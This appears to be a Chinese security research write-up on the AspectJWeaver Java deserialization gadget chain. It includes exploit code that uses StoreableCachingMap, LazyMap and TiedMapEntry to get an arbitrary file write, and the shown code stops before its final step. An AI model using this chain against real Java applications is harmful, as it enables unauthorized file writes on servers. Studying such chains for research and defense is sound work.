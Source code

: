 # AspectJWeaver

AspectWeaver时java语言的AOP实现，很多语法已经成为AOP领域的标准。本条链子是一条任意文件写入的利用链。但是`non RCE`,在上次的d3ctf中已经起飞了。

## exp

```java
public class AspectJWeaver {

	public static void main(String[] args) throws Exception {

		String fileName    = "123.txt";
		String filePath    = "/Users/phoebe/Downloads";
		String fileContent = "su18 is here";

		// 初始化 HashMap
		HashMap<Object, Object> hashMap = new HashMap<>();

		// 实例化  StoreableCachingMap 类
		Class<?>       c           = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
		Constructor<?> constructor = c.getDeclaredConstructor(String.class, int.class);
		constructor.setAccessible(true);
		Map map = (Map) constructor.newInstance(filePath, 10000);

		// 初始化一个 Transformer，使其 transform 方法返回要写出的 byte[] 类型的文件内容
		Transformer transformer = new ConstantTransformer(fileContent.getBytes(StandardCharsets.UTF_8));

		// 使用 StoreableCachingMap 创建 LazyMap 并引入 TiedMapEntry
		Map          lazyMap = LazyMap.decorate(map, transformer);
		TiedMapEntry entry   = new TiedMapEntry(lazyMap, fileName);

		// entry 放到 HashSet 中
		HashSet set = SerializeUtil.generateHashSet(entry);
```



## 分析

### SimpleCache$StoreableCachingMap

可以看到这个类的put方法，会将key和value，来作为参数调用write

![image-20220515103646076](https://img.dem0dem0.top/images/image-20220515103646076.png)

所以如果可以的话

```java
Class<?>       c           = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
Constructor<?> constructor = c.getDeclaredConstructor(String.class, int.class);
constructor.setAccessible(true);
HashMap<String, Object> map = (HashMap) constructor.newInstance("/tmp/", 10000);
map.put("123.txt", "aaa".getBytes(StandardCharsets.UTF_8));
```

### LazyMap

我们在CC链中，我们通过它来触发transform方法，但是他在后面会调用put.

